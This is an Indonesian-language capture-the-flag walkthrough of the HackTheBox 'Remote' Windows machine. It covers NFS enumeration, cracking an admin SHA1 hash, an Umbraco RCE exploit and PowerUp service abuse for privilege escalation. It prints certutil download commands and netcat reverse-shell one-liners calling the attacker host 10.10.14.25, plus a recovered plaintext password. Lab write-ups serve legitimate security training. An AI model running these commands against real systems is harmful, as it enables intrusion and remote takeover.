




# Remote (Windows)



HackTheBox remote machine dengan operating system windows

### Enumeration

Mari pertama-tama kita lakukan nmap untuk mengetahui port apa saja yang terbuka pada mesin ini



### User

Ternyata ada web application HTTP yang berjalan di port 80, setelah dibuka ternyata ada login portal yang berada di http://10.10.10.180/umbraco/#/developer

Terdapat service mountd dengan tipe data nfs yang dapat kita cek isinya dengan melakukan mounting menggunakan command 

```
mount -t nfs 10.10.10.180:/ ./mnt/
```

Setelah dilakukan mounting kita bisa menemukan sebuah file .sdf yang ketika di cat kita bisa melihat credentials admin dalam bentuk hash

```
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

Email = admin@htb.local

Hash = b8be16afba8c314ad33d812f22a04991b90e2aaa (SHA1)

Kita bisa menggunakan dehash online karena formatnya SHA1, kemungkinan besar sudah ada di database




Setelah melakukan dehash didapatkan password admin yaitu

```
admin
baconandcheese
```

Setelah mendapatkan kredensial admin kita sekarang bisa login melalui login portal Umbraco

Kita sekarang akan menjalankan RCE dengan menggunakan CVE Umbraco

[https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)



Ganti login, password, dan hostnya dan jalankan exploitnya untuk mendapatkan RCE, RCE ini akan kita gunakan untuk untuk mendownload nc.exe ke mesin remote tapi perlu diingat untuk mengganti filename dari calc.exe menjadi cmd.exe karena calc.exe itu hanya untuk PoC exploit semata
Commands yang digunakan antara lain

```
/c certutil -urlcache -f -split http://10.10.14.25/nc.exe c:/windows/temp/nc.exe
```

```
/c c:/windows/temp/nc.exe 10.10.14.25 1234 -e powershell.exe
```

### Root

Setelah mendapatkan low privilege shell, kita akan menggunakan PowerUp.ps1 untuk mencoba mencari cara privilege escalation ke system admin. Dan ternyata Ditemukan Invoke-AbuseService untuk RCE sebagai administrator, pakai nc64 yang sama

```
Invoke-ServiceAbuse -Name 'UsoSvc' -Command "c:\windows/temp\nc64.exe -e powershell.exe 10.10.14.25 7777
```

Dengan setup netcat listener kita bisa mendapatkan shell sebagai NTAuthority !

# Rooted !